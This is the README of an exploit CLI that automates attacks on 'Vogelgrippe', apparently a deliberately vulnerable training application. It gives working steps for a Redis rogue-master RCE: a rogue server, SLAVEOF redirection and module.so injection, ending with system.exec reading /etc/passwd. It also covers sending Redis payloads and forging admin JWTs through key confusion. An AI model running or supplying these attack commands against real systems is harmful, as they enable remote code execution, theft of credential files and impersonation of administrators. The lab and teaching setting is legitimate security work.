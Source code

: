 # Vogelgrippe Exploits CLI

Small command line application written in Python that automates different attack scenarios for the Vogelgrippe application.

## Installation

Create and activate the virtual environment for the `vogelgrippe-exploit` package

```
python -m venv venv
source ./venv/bin/activate
pip install --editable .
```

Check out what you can do now
 
```
vg-exploit --help
```

## General Usage

Make sure to login first

```
vg-exploit login <USERNAME>
```

Next, send your payloads. Make sure to specify the Redis instance that is reachable from the frontend.
Within Docker or K8S, this should be `vogelgrippe-redis:6379`.

```
vg-exploit redis --redis-host vogelgrippe-redis:6379 .\redis_payloads\hackedflag.txt
```

## Remote Code Execution (RCE)

For this exploit to work, you need to first start a Redis rogue server.

This exploit (for Redis 4.x and 5.x) was inspired by [Redis Post-Exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
The code was taken and adapted from [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server).

The rogue server acts as a fake Redis master host and can upload a shared library to a real Redis.

### Usage

#### Kubernetes Deployment

If you run Vogelgrippe inside K8S it may be that your Redis instance can not access the local rogue server.
For that, build and run the following temporary container in your cluster.
Make sure to use the K8S Docker environment as explained in the root README.

```
docker build --tag redis-rogue-server .\redis_payloads\redis-rogue-server
kubectl run redis-rogue-server --rm -i --tty --expose --port 6666 \
    --image-pull-policy=IfNotPresent --image redis-rogue-server
```

It might be the case that you don't see proper console output.

#### Local Deployment

Build the `module.so` from the already linked git submodule from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

```
git submodule init
git submodule update

cd ./redis_payloads/redis-rogue-server/RedisModules-ExecuteCommand

make
```

Move back to `./redis_payloads/redis-rogue-server` and start the server to listen on all interfaces on port `6666`

```
cd redis-rogue-server
python redis-rogue-server.py --lhost 0.0.0.0 --lport 6666
```

Inside the `./redis_payloads/rce.txt` change the `SLAVEOF` command so that it points to the ip address and port of your rogue server.
Then, run the RCE exploit, which makes our rogue server a slave and injects the `module.so` to `/tmp/exp.so`

```
vg-exploit redis --redis-host vogelgrippe-redis:6379 .\redis_payloads\rce.txt
```

You should see some output on your rogue server on success and the exploit should already have created the file `/tmp/maliciousfile`

The compromised Redis instance can now execute arbitrary code like so

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from Redis host
```

You don't need the rogue server anymore.

## JWT KeyConfusion Attack
For this exploit to work you need login via the login-command before.
Further details and a writeup about the vulnerability are available in the user-auth-service project.

### Usage
To forge a JWT token just provide the usertag which is a combination of username:userid.

!Attention! The username and userid have to match, otherwise the forged token will not have the right permissions.
```
$ vg-exploit fake-user admin:1
```

Now you can either use vg-exploit with the forged-user(logged in automatically) or use the forged token, which is printed to the command-line manually.
